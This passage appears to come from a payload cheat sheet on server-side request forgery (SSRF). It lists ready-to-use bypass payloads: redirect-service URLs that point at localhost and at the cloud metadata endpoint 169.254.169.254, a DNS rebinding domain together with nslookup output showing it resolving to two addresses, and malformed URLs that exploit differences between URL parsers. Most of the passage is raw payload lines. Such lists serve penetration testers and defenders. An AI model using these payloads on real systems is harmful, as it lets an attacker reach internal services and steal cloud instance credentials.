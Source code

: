 
* Redirects to `http://localhost` with `307 Temporary Redirect` status code
    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* Redirects to `http://169.254.169.254/latest/meta-data/` with `302 Found` status code
    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```


### Bypass Using DNS Rebinding

Create a domain that change between two IPs. 

* [1u.ms](http://1u.ms) - DNS rebinding utility

For example to rotate between `1.2.3.4` and `169.254-169.254`, use the following domain:

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

Verify the address with `nslookup`.

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```


### Bypass Abusing URL Parsing Discrepancy

[A New Era Of SSRF Exploiting URL Parser In Trending Programming Languages - Research from Orange Tsai](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)


Parsing behavior by different libraries: `http://1.1.1.1 &@2.2.2.2# @3.3.3.3/`

* `urllib2` treats `1.1.1.1` as the destination
* `requests` and browsers redirect to `2.2.2.2`
* `urllib` resolves to `3.3.3.3`
